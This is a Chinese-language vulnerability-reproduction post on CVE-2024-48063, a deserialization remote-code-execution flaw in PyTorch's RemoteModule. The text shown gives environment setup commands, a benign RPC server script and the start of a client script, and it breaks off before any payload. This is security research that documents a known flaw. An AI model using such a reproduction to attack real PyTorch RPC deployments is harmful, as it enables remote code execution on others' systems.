 ```yaml
---
layout: post
title:  "CVE-2024-48063"
date:   2024-07-23
categories: vul_repro
---
```


# PyTorch RemoteModule模块反序列化RCE漏洞

# 漏洞环境

- PyTorch ≤ 2.4.1
- 使用 cpu 而不是 CUDA 张量，因为在使用 CUDA 张量的情况下不支持 RemoteModule

# 漏洞复现步骤

1. 用`conda`创建虚拟环境安装

   ```shell
   conda create -n CVE-2024-48063 python=3.9
   ```

2. pip 安装 `torch2.4.1`

   ```shell
   pip install torch==2.4.1 torchvision==0.19.1 torchaudio==2.4.1 --index-url https://download.pytorch.org/whl/cpu
   ```

3. 创建服务端

   ```python
   # server.py
   import torch
   import torch.distributed.rpc as rpc
   
   
   def run_server():
       # 初始化RPC环境，指定服务端名称、排名和世界大小
       rpc.init_rpc(name="server", rank=0, world_size=2)
   
       # 保持服务端运行，等待来自客户端的RPC请求
       rpc.shutdown()
   
   if __name__ == "__main__":
       run_server()
   ```

4. 创建用户端

   ```python
   # client.py
   import torch
   import torch.distributed.rpc as rpc
   from torch.distributed.nn.api.remote_module import RemoteModule
   import torch.nn as nn
   
   # 定义一个简单的神经网络模型
   class MyModel(nn.Module):
       def __init__(self):
           super(MyModel, self).__init__()
           self.linear = nn.Linear(1, 1)
   
   ```